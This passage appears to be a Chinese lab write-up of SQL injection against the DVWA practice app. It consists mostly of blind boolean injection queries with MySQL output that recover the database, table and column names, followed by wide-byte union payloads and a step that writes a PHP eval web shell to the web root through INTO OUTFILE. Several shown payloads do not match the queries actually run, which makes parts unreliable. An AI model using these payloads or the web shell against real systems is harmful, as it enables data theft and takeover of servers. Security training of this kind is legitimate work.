+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr(database(),2,1))>117;# exists

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr(database(),2,1))=118;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr(database(),2,1))=118;# exists
#数据库名称的第2位字符对应的ASCII码为118，查询是字母 v

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr(database(),3,1))>128;
Empty set (0.00 sec)

1' and ascii(substr(database(),3,1))>128;# MISSING

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr(database(),3,1))>64;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr(database(),3,1))>64;# exists

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr(database(),3,1))>96;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr(database(),3,1))>96;# exists

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr(database(),3,1))>112;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr(database(),3,1))>112;# exists

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr(database(),3,1))>120;
Empty set (0.00 sec)

1' and ascii(substr(database(),3,1))>120;# MISSING

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr(database(),3,1))>116;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr(database(),3,1))>116;# exists

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr(database(),3,1))>118;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr(database(),3,1))>118;# exists

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr(database(),3,1))=119;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr(database(),3,1))=119;# exists
#数据库名称的第3位字符对应的ASCII码为119，查询是字母 w

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr(database(),4,1))>128;
Empty set (0.00 sec)

1' and ascii(substr(database(),4,1))>128;# MISSING

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr(database(),4,1))>64;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr(database(),4,1))=64;# exists

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr(database(),4,1))>96;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr(database(),4,1))=96;# exists

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr(database(),4,1))>112;
Empty set (0.00 sec)

1' and ascii(substr(database(),4,1))>112;# MISSING

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr(database(),4,1))>104;
Empty set (0.00 sec)

1' and ascii(substr(database(),4,1))>104;# MISSING

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr(database(),4,1))>100;
Empty set (0.00 sec)

1' and ascii(substr(database(),4,1))>100;# MISSING

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr(database(),4,1))>98;
Empty set (0.00 sec)

1' and ascii(substr(database(),4,1))>98;# MISSING

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr(database(),4,1))=97;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr(database(),4,1))=97;# exists
#数据库名称的第4位字符对应的ASCII码为97，查询是字母 a
#从而，获取到当前连接数据库的名称为：dvwa
```

#### 2.探测表名

```shell
mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and (select count(table_name) from information_schema.tables where table_schema=database())>10;
Empty set (0.00 sec)

1' and (select count(table_name) from information_schema.tables where
table_schema=database())>10;# MISSING

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and (select count(table_name) from information_schema.tables where table_schema=database())>5;
Empty set (0.00 sec)

1' and (select count(table_name) from information_schema.tables where
table_schema=database())>5;# MISSING

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and (select count(table_name) from information_schema.tables where table_schema=database())>3;
Empty set (0.00 sec)

1' and (select count(table_name) from information_schema.tables where
table_schema=database())>3;# MISSING

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and (select count(table_name) from information_schema.tables where table_schema=database())>2;
Empty set (0.01 sec)

1' and (select count(table_name) from information_schema.tables where
table_schema=database())>2;# MISSING

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and (select count(table_name) from information_schema.tables where table_schema=database())>1;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and (select count(table_name) from information_schema.tables where
table_schema=database())>1;# exists

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and (select count(table_name) from information_schema.tables where table_schema=database())=2;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and (select count(table_name) from information_schema.tables where
table_schema=database())=2;# exists
#dvwa数据库中表的个数=2

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))>10;
Empty set (0.00 sec)

1' and length((select table_name from information_schema.tables where
table_schema=database() limit 0,1))>10;# MISSING

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))>5;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and length((select table_name from information_schema.tables where
table_schema=database() limit 0,1))>5;# exists

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))>8;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and length((select table_name from information_schema.tables where
table_schema=database() limit 0,1))>8;# exists

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))>9;
Empty set (0.00 sec)

1' and length((select table_name from information_schema.tables where
table_schema=database() limit 0,1))>9;# MISSING

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=9;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and length((select table_name from information_schema.tables where
table_schema=database() limit 0,1))=9;# exists
#猜解dvwa数据库中第1张表的名称字符长度=9

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and length((select table_name from information_schema.tables where table_schema=database() limit 1,1))>10;
Empty set (0.00 sec)

1' and length((select table_name from information_schema.tables where
table_schema=database() limit 1,1))>10;# MISSING

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and length((select table_name from information_schema.tables where table_schema=database() limit 1,1))>5;
Empty set (0.00 sec)

1' and length((select table_name from information_schema.tables where
table_schema=database() limit 1,1))>5;# MISSING

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and length((select table_name from information_schema.tables where table_schema=database() limit 1,1))>3;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and length((select table_name from information_schema.tables where
table_schema=database() limit 0,1))>3;# exists

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and length((select table_name from information_schema.tables where table_schema=database() limit 1,1))>4;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and length((select table_name from information_schema.tables where
table_schema=database() limit 0,1))>4;# exists

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and length((select table_name from information_schema.tables where table_schema=database() limit 1,1))=5;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and length((select table_name from information_schema.tables where
table_schema=database() limit 0,1))=5;# exists
#猜解dvwa数据库中第2张表的名称字符长度=5

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>128;
Empty set (0.00 sec)

1' and ascii(substr((select table_name from information_schema.tables where
table_schema=database() limit 0,1),1,1))>128;# MISSING

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>64;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr((select table_name from information_schema.tables where
table_schema=database() limit 0,1),1,1))>64;# exists

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>96;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr((select table_name from information_schema.tables where
table_schema=database() limit 0,1),1,1))>96;# exists

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>112;
Empty set (0.00 sec)

1' and ascii(substr((select table_name from information_schema.tables where
table_schema=database() limit 0,1),1,1))>112;# MISSING

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>104;
Empty set (0.01 sec)

1' and ascii(substr((select table_name from information_schema.tables where
table_schema=database() limit 0,1),1,1))>104;# MISSING

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>100;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr((select table_name from information_schema.tables where
table_schema=database() limit 0,1),1,1))>100;# exists

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>102;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr((select table_name from information_schema.tables where
table_schema=database() limit 0,1),1,1))>102;# exists

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=103;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr((select table_name from information_schema.tables where
table_schema=database() limit 0,1),1,1))=103;# exists
#dvwa数据库第1张表的第1个字符的ASCII码=103，对应的字符为g
mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))=117;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr((select table_name from information_schema.tables where
table_schema=database() limit 0,1),2,1))=117;# exists
#dvwa数据库第1张表的第2个字符的ASCII码=117，对应的字符为u
mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),3,1))=101;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr((select table_name from information_schema.tables where
table_schema=database() limit 0,1),3,1))=101;# exists
#dvwa数据库第1张表的第3个字符的ASCII码=101，对应的字符为e
mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),4,1))=115;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr((select table_name from information_schema.tables where
table_schema=database() limit 0,1),4,1))=115;# exists
#dvwa数据库第1张表的第4个字符的ASCII码=115，对应的字符为s
mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),5,1))=116;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr((select table_name from information_schema.tables where
table_schema=database() limit 0,1),5,1))=116;# exists
#dvwa数据库第1张表的第5个字符的ASCII码=116，对应的字符为t
mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),6,1))=98;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr((select table_name from information_schema.tables where
table_schema=database() limit 0,1),6,1))=98;# exists
#dvwa数据库第1张表的第6个字符的ASCII码=98，对应的字符为b
mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),7,1))=111;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr((select table_name from information_schema.tables where
table_schema=database() limit 0,1),7,1))=111;# exists
#dvwa数据库第1张表的第7个字符的ASCII码=111，对应的字符为o
mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),8,1))=111;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr((select table_name from information_schema.tables where
table_schema=database() limit 0,1),8,1))=111;# exists
#dvwa数据库第1张表的第8个字符的ASCII码=111，对应的字符为o
mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),9,1))=107;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr((select table_name from information_schema.tables where
table_schema=database() limit 0,1),9,1))=107;# exists
#dvwa数据库第1张表的第9个字符的ASCII码=107，对应的字符为k
#从而dvwa数据库第一张表的名称为：guestbook

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=103;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr((select table_name from information_schema.tables where
table_schema=database() limit 1,1),1,1))=117;# exists
#dvwa数据库第2张表的第1个字符的ASCII码=117，对应的字符为u
mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),2,1))=115;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr((select table_name from information_schema.tables where
table_schema=database() limit 1,1),2,1))=115;# exists
#dvwa数据库第2张表的第2个字符的ASCII码=115，对应的字符为s
mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),3,1))=101;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr((select table_name from information_schema.tables where
table_schema=database() limit 1,1),3,1))=101;# exists
#dvwa数据库第2张表的第3个字符的ASCII码=101，对应的字符为e
mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),4,1))=114;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr((select table_name from information_schema.tables where
table_schema=database() limit 1,1),4,1))=114;# exists
#dvwa数据库第2张表的第4个字符的ASCII码=114，对应的字符为r
mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),5,1))=115;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr((select table_name from information_schema.tables where
table_schema=database() limit 1,1),5,1))=115;# exists
#dvwa数据库第2张表的第5个字符的ASCII码=115，对应的字符为s
#猜解出dvwa数据库第二张表的名称为：users
```

#### 3.探测表字段名

```shell
mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and (select count(column_name) from information_schema.columns where table_schema=database() and table_name='guestbook')>10;
Empty set (0.00 sec)

1' and (select count(column_name) from information_schema.columns where
table_schema=database() and table_name='guestbook')>10;# MISSING

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and (select count(column_name) from information_schema.columns where table_schema=database() and table_name='guestbook')>5;
Empty set (0.00 sec)

1' and (select count(column_name) from information_schema.columns where
table_schema=database() and table_name='guestbook')>5;# MISSING

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and (select count(column_name) from information_schema.columns where table_schema=database() and table_name='guestbook')>3;
Empty set (0.00 sec)

1' and (select count(column_name) from information_schema.columns where
table_schema=database() and table_name='guestbook')>3;# MISSING

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and (select count(column_name) from information_schema.columns where table_schema=database() and table_name='guestbook')>2;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and (select count(column_name) from information_schema.columns where
table_schema=database() and table_name='guestbook')>2;# exists

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and (select count(column_name) from information_schema.columns where table_schema=database() and table_name='guestbook')=3;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and (select count(column_name) from information_schema.columns where
table_schema=database() and table_name='guestbook')=3;# exists
#dvwa库的guestbook表中有3个字段

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and length((select column_name from information_schema.columns where table_schema=database() and table_name='guestbook' limit 0,1))=10;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and length((select column_name from information_schema.columns where table_schema=database() and table_name='guestbook' limit 0,1))=10;# exists
#dvwa数据库第1张表的第1个字段的长度为10

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and length((select column_name from information_schema.columns where table_schema=database() and table_name='guestbook' limit 1,1))=7;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and length((select column_name from information_schema.columns where table_schema=database() and table_name='guestbook' limit 1,1))=7;# exists
#dvwa数据库第1张表的第2个字段的长度为7

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and length((select column_name from information_schema.columns where table_schema=database() and table_name='guestbook' limit 2,1))=4;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and length((select column_name from information_schema.columns where table_schema=database() and table_name='guestbook' limit 2,1))=4;# exists
#dvwa数据库第1张表的第3个字段的长度为4

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='guestbook' limit 0,1),1,1))=99;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='guestbook' limit 0,1),1,1))=99;# exists
#dvwa数据库第1张表的第1个字段的第1个字符的ASCII码=99，对应的字符为c
#dvwa数据库第1张表的第1个字段的第2个字符的ASCII码=111，对应的字符为o
#dvwa数据库第1张表的第1个字段的第3个字符的ASCII码=109，对应的字符为m
#dvwa数据库第1张表的第1个字段的第4个字符的ASCII码=109，对应的字符为m
#dvwa数据库第1张表的第1个字段的第5个字符的ASCII码=101，对应的字符为e
#dvwa数据库第1张表的第1个字段的第6个字符的ASCII码=110，对应的字符为n
#dvwa数据库第1张表的第1个字段的第7个字符的ASCII码=116，对应的字符为t
#dvwa数据库第1张表的第1个字段的第8个字符的ASCII码=95，对应的字符为_
#dvwa数据库第1张表的第1个字段的第9个字符的ASCII码=105，对应的字符为i
#dvwa数据库第1张表的第1个字段的第10个字符的ASCII码=100，对应的字符为d
#dvwa数据库第1张表的第1个字段为comment_id

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='guestbook' limit 1,1),1,1))=99;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='guestbook' limit 1,1),1,1))=99;# exists
#dvwa数据库第1张表的第2个字段的第1个字符的ASCII码=99，对应的字符为c
#dvwa数据库第1张表的第2个字段的第2个字符的ASCII码=111，对应的字符为o
#dvwa数据库第1张表的第2个字段的第3个字符的ASCII码=109，对应的字符为m
#dvwa数据库第1张表的第2个字段的第4个字符的ASCII码=109，对应的字符为m
#dvwa数据库第1张表的第2个字段的第5个字符的ASCII码=101，对应的字符为e
#dvwa数据库第1张表的第2个字段的第6个字符的ASCII码=110，对应的字符为n
#dvwa数据库第1张表的第2个字段的第7个字符的ASCII码=116，对应的字符为t
#dvwa数据库第1张表的第2个字段为comment

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='guestbook' limit 2,1),1,1))=110;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr((select column_name from information_schema.columns where table_schema=database() and table_name='guestbook' limit 2,1),1,1))=110;# exists
#dvwa数据库第1张表的第3个字段的第1个字符的ASCII码=110，对应的字符为n
#dvwa数据库第1张表的第3个字段的第2个字符的ASCII码=97，对应的字符为a
#dvwa数据库第1张表的第3个字段的第3个字符的ASCII码=109，对应的字符为m
#dvwa数据库第1张表的第3个字段的第4个字符的ASCII码=101，对应的字符为e
#dvwa数据库第1张表的第3个字段为name
```

### 4.利用宽字节注入实现“库名 - 表名 - 列名”的注入过程，写清楚注入步骤。

#### 1.探测库名



```shell
%df' union select database(),user()#
```

#### 2.探测表名



```shell
%df' union select user(),(select group_concat(table_name) from information_schema.tables where table_schema = database())#
```

#### 3.探测字段名



```shell
%df' UNION SELECT (select table_name from information_schema.tables where table_schema = database() limit 0,1),group_concat(column_name) from information_schema.columns where table_schema = database() and table_name=(select table_name from information_schema.tables where table_schema = database() limit 0,1)#
```


```shell
%df' UNION SELECT (select table_name from information_schema.tables where table_schema = database() limit 1,1),group_concat(column_name) from information_schema.columns where table_schema = database() and table_name=(select table_name from information_schema.tables where table_schema = database() limit 1,1)#
```



```shell
%df' UNION SELECT (select table_name from information_schema.tables where table_schema = database() limit 2,1),group_concat(column_name) from information_schema.columns where table_schema = database() and table_name=(select table_name from information_schema.tables where table_schema = database() limit 2,1)#
```


```shell
%df' UNION SELECT (select table_name from information_schema.tables where table_schema = database() limit 3,1),group_concat(column_name) from information_schema.columns where table_schema = database() and table_name=(select table_name from information_schema.tables where table_schema = database() limit 3,1)#
```



```shell
%df' UNION SELECT (select table_name from information_schema.tables where table_schema = database() limit 4,1),group_concat(column_name) from information_schema.columns where table_schema = database() and table_name=(select table_name from information_schema.tables where table_schema = database() limit 4,1)#
```

### 5.利用 SQL 注入实现 DVWA 站点的 Getshell，写清楚攻击步骤。

#### 1.上传一句话木马

```shell
' union select 1,"<?php eval($_POST['a']);" into outfile '/var/www/html/shell2.php
```

#### 2.访问上传的木马文件执行shell



#### 3.蚁剑获取网站



